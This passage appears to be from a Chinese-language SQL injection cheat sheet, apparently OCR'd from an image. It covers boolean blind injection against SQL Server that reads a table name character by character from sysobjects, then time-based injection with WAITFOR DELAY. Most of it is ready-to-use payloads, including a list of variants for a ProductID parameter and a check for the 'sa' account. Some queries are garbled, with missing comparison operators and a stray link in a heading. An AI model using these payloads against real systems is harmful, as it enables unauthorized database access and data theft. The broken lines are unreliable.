 ```

FALSE : SELECT ID, Username, Email FROM [User]WHERE ID = 1 AND ISNULL(ASCII(SUBSTRING((SELECT TOP 1 name FROM sysObjects WHERE xtYpe=0x55 AND name NOT IN(SELECT TOP 0 name FROM sysObjects WHERE xtYpe=0x55)),1,1)),0)>83-- 

TRUE : SELECT ID, Username, Email FROM [User]WHERE ID = 1 AND ISNULL(ASCII(SUBSTRING((SELECT TOP 1 name FROM sysObjects WHERE xtYpe=0x55 AND name NOT IN(SELECT TOP 0 name FROM sysObjects WHERE xtYpe=0x55)),1,1)),0) 

FALSE : SELECT ID, Username, Email FROM [User]WHERE ID = 1 AND ISNULL(ASCII(SUBSTRING((SELECT TOP 1 name FROM sysObjects WHERE xtYpe=0x55 AND name NOT IN(SELECT TOP 0 name FROM sysObjects WHERE xtYpe=0x55)),1,1)),0)>80-- 


FALSE : SELECT ID, Username, Email FROM [User]WHERE ID = 1 AND ISNULL(ASCII(SUBSTRING((SELECT TOP 1 name FROM sysObjects WHERE xtYpe=0x55 AND name NOT IN(SELECT TOP 0 name FROM sysObjects WHERE xtYpe=0x55)),1,1)),0)

```

由于上面**后两个查询都是false**，我们能清楚的知道表名的第一个**字符的ASCII码是80，也就是"P"**。这就是我们通过二分算法来进行盲注的方法。其他已知的方法是一位一位(`bit by bit`)地读取数据。这些方法在不同条件下都很有效。

### 延时盲注

首先，只在完全没有提示(`really blind`)的情况下使用，否则请使用`1/0方式`通过错误来判断差异。其次，在使用20秒以上的延时时要小心，因为应用与数据库的连接API可能会判定为超时(`timeout`)。

#### WAITFOR DELAY[time](http://drops.com:8000/S)

这就跟`sleep`差不多，等待特定的时间。通过CPU来让数据库进行等待。

```
WAITFOR DELAY '0:0:10'--

```

你也可以这样用

```
WAITFOR DELAY '0:0:0.51'

```

#### 实例

*   俺是sa吗？`if (select user) = 'sa' waitfor delay '0:0:10'`
*   ProductID =`1;waitfor delay '0:0:10'--`
*   ProductID =`1);waitfor delay '0:0:10'--`
*   ProductID =`1';waitfor delay '0:0:10'--`
*   ProductID =`1');waitfor delay '0:0:10'--`
*   ProductID =`1));waitfor delay '0:0:10'--`
*   ProductID =`1'));waitfor delay '0:0:10'--`

#### BENCHMARK()(M)
